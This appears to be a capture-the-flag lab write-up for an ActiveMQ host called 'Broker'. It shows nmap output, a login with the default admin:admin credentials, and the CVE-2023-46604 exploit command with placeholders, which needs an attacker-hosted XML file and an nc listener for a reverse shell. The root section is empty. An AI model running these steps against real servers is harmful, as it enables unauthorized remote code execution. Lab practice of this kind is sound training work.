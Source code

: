 Exploitable externally and something identified on past engagements
* Host information: `10.129.231.4`
# User
* `nmap -sC -sV 10.129.231.4`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 13:54 EDT
Nmap scan report for 10.129.231.4
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds
```
* Browsing to port 80 takes you to a login page
	* looked up default creds for ActiveMQRealm (`admin:admin`)
	* resulted in a successful login
![](Broker-paste.png)
* Seeing as the lab is called broker I decided to investigate the `Manage ActiveMQ broker` link
![](Broker-paste-1.png)
* I can see that the version is 5.15.15, so I decided to investigate potential vulnerabilities for this version
	* https://nvd.nist.gov/vuln/detail/CVE-2023-46604
* looked up CVE-2023-46604 poc and got https://github.com/evkl1d/CVE-2023-46604
	* The POC needs to be running on a webserver **you host** not on the website
	* Also need a nc listener
	* THEN you run the exploit command: `python exploit.py -i <target-ip> -p <target-port> -u <url-to-poc.xml>`
# Root